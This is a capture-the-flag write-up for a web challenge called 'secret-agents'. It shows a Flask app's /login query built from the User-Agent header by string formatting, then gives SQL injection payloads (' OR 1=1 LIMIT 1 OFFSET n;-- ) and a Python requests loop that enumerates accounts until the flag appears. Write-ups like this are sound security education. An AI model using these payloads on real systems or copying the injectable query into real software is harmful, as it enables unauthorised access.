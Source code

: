# secret-agents
Web, 110

> Can you enter the secret agent portal? I've heard someone has a flag :eyes:

> Our insider leaked the source, but was "terminated" shortly thereafter...

> Linked: https://agents.2020.chall.actf.co, app.p<span></span>y

For a while this kept going down due to pool exhaustion, but I removed it and it stabilised.

There seem to be a lot of commented code ~~from my attempts at a rate-limit hotfix~~, but the main issue we see is here:
```python
for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
```
under the `/login` function.

The sql statement is vulnerable to injections!
Tracing where `u` is from, we find:
```python
u = request.headers.get("User-Agent")
```

So, this seems like an injection via the User-Agent. Simple enough. One thing to keep in mind is that we can only select 1 agent at a time, due to this line:
```python
if len(res) > 1:
```

You can use whatever interface you want to set the User-Agent, but I used Python + requests.

Anyway, we set our User-Agent header to `' OR 1=1;-- ` (mind the space).

However, this triggers the previously mentioned line of code, and we are faced with:
`hey! close, but no bananananananananana!!!! (there are many secret agents of course)`

So, we look into ways to limit it. Of course, MySQL has a `LIMIT`, so we implement it.
Our User-Agent now looks like `' OR 1=1 LIMIT 1;-- `.

Now, we can see that we're logged in as GRU (from Despicable Me). The only logical way to proceed now is to iterate through all the users, using something like Python:
```python
import requests

i=0
while True:
    p = requests.get("https://agents.2020.chall.actf.co/login", headers={
        "User-Agent": f"' OR 1=1 LIMIT 1 OFFSET {i};-- "
    })

    if "actf" in p.text:
        print(p.text)
        break

    i += 1;
```

Note that the `OFFSET` keyword is used to get the `i`th agent.

Flag: `actf{nyoom_1_4m_sp33d}`
